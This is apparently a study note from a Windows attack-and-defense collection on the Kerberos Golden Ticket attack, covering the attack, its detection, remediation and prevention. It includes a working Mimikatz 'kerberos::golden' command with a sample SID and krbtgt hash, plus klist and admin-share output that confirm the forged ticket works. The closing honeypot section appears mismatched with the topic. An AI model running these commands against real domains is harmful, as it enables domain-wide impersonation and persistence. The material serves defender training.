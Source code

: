 # windows_attack_defense
### Golden Ticket Attack
The Kerberos Golden Ticket is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.

When a Domain is created, the unique user account krbtgt is created by default; krbtgt is a disabled account that cannot be deleted, renamed, or enabled. The Domain Controller's KDC service will use the password of krbtgt to derive a key with which it signs all Kerberos tickets. This password's hash is the most trusted object in the entire Domain because it is how objects guarantee that the environment's Domain issued Kerberos tickets.

Therefore, any user possessing the password's hash of krbtgt can create valid Kerberos TGTs. Because krbtgt signs them, forged TGTs are considered valid tickets within an environment. Previously, it was even possible to create TGTs for inexistent users and assign any privileges to their accounts. Because the password's hash of krbtgt signs these tickets, the entire domain blindly trusts them, behaving as if the user(s) existed and possessed the privileges inscribed in the ticket.

The Golden Ticket attack allows us to escalate rights from any child domain to the parent in the same forest. Therefore, we can escalate to the production domain from any test domain we may have, as the domain is not a security boundary.

This attack provides means for elevated persistence in the domain. It occurs after an adversary has gained Domain Admin (or similar) privileges.

To perform the Golden Ticket attack, we can use Mimikatz with the following arguments:
- /domain: The domain's name.
- /sid: The domain's SID value.
- /rc4: The password's hash of krbtgt.
- /user: The username for which Mimikatz will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
- /id: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the /renewmax and /endin arguments, as otherwise, Mimikatz will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:
- /renewmax: The maximum number of days the ticket can be renewed.
- /endin: End-of-life for the ticket.

**Note:**
we need to obtain the password's hash of krbtgt and the SID value of the Domain

```
. .\PowerView.ps1
Get-DomainSID

# mimikatz
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

# verify using klist
C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

# testing out the new tgt
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```


### Golden Ticket Detection
Correlating users' behavior is the best technique to detect abuse of forged tickets. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other (suspicious) behaviors—for example, consider the account 'Administrator' in the attack described above. If a mature organization uses Privileged Access Workstations (PAWs), they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the ID 4624 and 4625 (successful and failed logon).

Domain Controllers will not log events when a threat agent forges a Golden Ticket from a compromised machine. However, when attempting to access another system(s), we will see events for successful logon originating from the compromised machine:

![logon after ticket](./logonAfterTickets.png)

Another detection point could be a TGS service requested for a user without a previous TGT. However, this can be a tedious task due to the sheer volume of tickets (and many other factors). If we go back to the attack scenario, by running dir \\dc1\c$ at the end, we generated two TGS tickets on the Domain Controller:

![ticket 1](./ticket1.png)

![ticket 2](./ticket2.png)

The only difference between the tickets is the service. However, they are ordinary compared to the same events not associated with the Golden Ticket.

If SID filtering is enabled, we will get alerts with the event ID 4675 during cross-domain escalation.

**Note:**
If an Active Directory forest has been compromised, we need to reset all users' passwords and revoke all certificates, and for krbtgt, we must reset its password twice (in every domain). The password history value for the krbtgt account is 2. Therefore it stores the two most recent passwords. By resetting the password twice, we effectively clear any old passwords from the history, so there is no way another DC will replicate this DC by using an old password. However, it is recommended that this password reset occur at least 10 hours apart from each other (maximum user ticket lifetime); otherwise, expect some services to break if done in a shorter period.

### Golden Ticket Prevention
Preventing the creation of forged tickets is difficult as the KDC generates valid tickets using the same procedure. Therefore, once an attacker has all the required information, they can forge a ticket. Nonetheless, there are a few things we can and should do:

- Block privileged users from authenticating to any device.
- Periodically reset the password of the krbtgt account; the secrecy of this hash value is crucial to Active Directory. When resetting the password of krbtgt (regardless of the password's strength), it will always be overwritten with a new randomly generated and cryptographically secure one. Utilizing Microsoft's script for changing the password of krbtgt KrbtgtKeys.ps1 is highly recommended as it has an audit mode that checks the domain for preventing impacts upon password change. It also forces DC replication across the globe so all Domain Controllers sync the new value instantly, reducing potential business disruptions.
- Enforce SIDHistory filtering between the domains in forests to prevent the escalation from a child domain to a parent domain (because the escalation path involves abusing the SIDHistory property by setting it to that of a privileged group, for example, Enterprise Admins). However, doing this may result in potential issues in migrating domains.


### Golden Ticket Honeypot
However, suppose the honeypot user is the only account with Kerberos Pre-Authentication not required. In that case, there might be better detection methods, as it would be very obvious for advanced threat actors that it is a honeypot user, resulting in them avoiding interactions with it. (I did previously hear from an organization that needed one of these accounts (application related) that the 'security through obscurity' behind having only one of these accounts may save them, as attackers will avoid going after it thinking it is a honeypot user. While it may be true in some instances, we should not let a glimpse of hope dictate the security state of the environment.)